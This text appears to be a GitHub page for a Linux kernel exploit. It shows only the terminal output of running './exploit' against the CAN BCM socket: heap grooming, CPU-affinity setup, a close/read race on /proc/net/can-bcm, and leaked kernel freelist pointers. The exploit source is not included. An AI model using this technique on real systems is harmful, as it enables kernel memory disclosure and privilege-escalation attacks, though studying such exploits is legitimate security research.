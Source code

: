 ```
# make debug
# ./exploit
[*] - Disabling stdout buffering
[*] - Checking number of CPUs available
[*] - CPUs available: 4
[*] - Setting up CPU affinity spare thread CPU 3
[*] - Socket created successfully
[*] - Socket connected successfully
[*] - CAN BCM entry: 26127
[*] - Setting up CPU affinity main thread CPU 2
[*] - Preparing the cache
[*] - Allocating 1600 objects
[*] - Freeing 16 objects
[*] - Allocating target object
[*] - Setting up CPU affinity spare thread CPU 3
[*] - Freeing remaining objects
[*] - Creating close thread
[*] - Creating read threads
[*] - The race starts, releasing race barriers
[*] - Setting up CPU affinity race02 (read) thread to CPU 2
[*] - Setting up CPU affinity race01 (close) thread to CPU 2
[*] - Closing socket (race01)
[*] - Waiting...
[*] - Finishing read threads
[*] - Reading /proc/net/can-bcm/entry (race02)
[*] - Content: 

>>> socket 0000000000000000 / sk 0000000000000000 / bo 0000000000000000 / dropped 0 / bound vxcan1 <<<
tx_op: 63F vxcan1 [1] t2=4780907894528324 # sent 0
tx_op: 63E vxcan1 [1] t2=-4781491405787671 # sent 0
tx_op: 63D vxcan1 [1] t2=-4782617305694514 # sent 0
tx_op: 63C vxcan1 [1] t2=-4779802555927407 # sent 0
tx_op: 63B vxcan1 [1] t2=-4778113706067140 # sent 0
tx_op: 63A vxcan1 [1] t2=-4775861906253462 # sent 0
tx_op: 639 vxcan1 [1] t2=-4778676656020566 # sent 0
tx_op: 638 vxcan1 [1] t2=-4774736006346613 # sent 0
tx_op: 637 vxcan1 [1] t2=-4776987806160303 # sent 0
tx_op: 636 vxcan1 [1] t2=-4779239605973990 # sent 0
tx_op: 635 vxcan1 [1] t2=-4776424856206878 # sent 0
tx_op: 634 vxcan1 [1] t2=-4782054355741096 # sent 0
tx_op: 633 vxcan1 [1] t2=-4777550756113721 # sent 0
tx_op: 632 vxcan1 [1] t2=-4780365505880832 # sent 0
tx_op: 631 vxcan1 [1] t2=-4775298956300034 # sent 0
tx_op: 630 vxcan1 [1] t2=-4774173056393195 # sent 0

[*] - 16 objects obtained
[*] - Validating the first entry
[*] - First entry validated
[*] - Validating the other 15 objects
[*] - All objects validated

Leaked freelist 0: 0x10fc35dcc1d944	| Leaked freelist decoded: 0x425932665538b1a0
Leaked freelist 1: 0xffef03424742ede9	| Leaked freelist decoded: 0xbda4bae65d715628
Leaked freelist 2: 0xffef023c2265bece	| Leaked freelist decoded: 0xbda0bae65d7154b0
Leaked freelist 3: 0xffef04cb7e8eb491	| Leaked freelist decoded: 0xbdaabae65d715668
Leaked freelist 4: 0xffef0654b5da7b3c	| Leaked freelist decoded: 0xbdb0bae65d716260
Leaked freelist 5: 0xffef0860ff94d96a	| Leaked freelist decoded: 0xbdb8bae65d714610
Leaked freelist 6: 0xffef05d1a36be3aa	| Leaked freelist decoded: 0xbdaebae65d715010
Leaked freelist 7: 0xffef09672472088b	| Leaked freelist decoded: 0xbdbcbae65d715ef8
Leaked freelist 8: 0xffef075adab7aa51	| Leaked freelist decoded: 0xbdb4bae65d714c68
Leaked freelist 9: 0xffef054e90fd4c1a	| Leaked freelist decoded: 0xbdacbae65d714590
Leaked freelist 10: 0xffef07dded2641e2	| Leaked freelist decoded: 0xbdb6bae65d715ad0
```